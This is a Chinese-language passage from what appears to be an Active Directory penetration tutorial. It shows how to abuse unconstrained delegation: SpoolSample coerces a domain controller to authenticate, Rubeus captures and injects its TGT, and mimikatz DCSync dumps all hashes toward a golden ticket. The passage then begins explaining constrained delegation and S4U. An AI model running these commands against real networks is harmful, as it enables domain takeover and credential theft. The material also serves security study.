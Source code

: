 向 DC 的 `Spooler` 服务发送请求，强制其访问 win7 进行身份验证：`SpoolSample.exe DC win7`

可以用 `Rubeus` 来监听 `Event ID` 为 `4624` 事件，这样可以第一时间截取到域控的，每隔一秒监听一次来自 DC 的登陆（需要本地管理员权限）TGT：`Rubeus.exe monitor /interval:1 /filteruser:DC$`

**注**：Rubeus.exe 捕获到的 TGT 是 base64 编码的，但是我们不需要解码，`Rubeus` 可以直接将 base64 编码的票据直接注入到内存中：`Rubeus.exe ptt /ticket:base64`

得到 TGT 之后，利用 PTT 将票据注入到当前会话后，可以用 `dcsync` 导出域控中所有用户的 hash，然后用 `krbtgt` 用户的 hash 生成黄金票据。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>kerberos::ptt xxxx.kirbi<br><br>lsadump::dcsync /domain:test.local /all /csv<br>``` |

## [](#3-%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE)3 约束委派

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

由于非约束委派的不安全性，微软在 `windows server 2003` 中引入了约束委派，对 Kerberos 协议进行了拓展，引入了 `S4U`，其中 `S4U` 支持两个子协议：`Service for User to Self (S4U2Self)` 和 `Service for User to Proxy (S4U2proxy)`，这两个扩展都允许服务代表用户从 KDC 请求票证。`S4U2self` 可以代表自身请求针对其自身的 Kerberos 服务票据 (ST)；`S4U2proxy` 可以以用户的名义请求其它服务的 ST，约束委派就是限制了 `S4U2proxy` 扩展的范围。

`S4U2Self` 和 `S4U2proxy` 的请求过程（图来自微软手册）：

其中步骤 1-4 代表 `S4U2Self` 请求的过程，步骤 5-10 代表 `S4U2proxy` 的请求过程

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200506195543.png-water_print](assets/1699409170-a4e76a60807c80600ff186ef315666cd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200506195543.png-water_print")
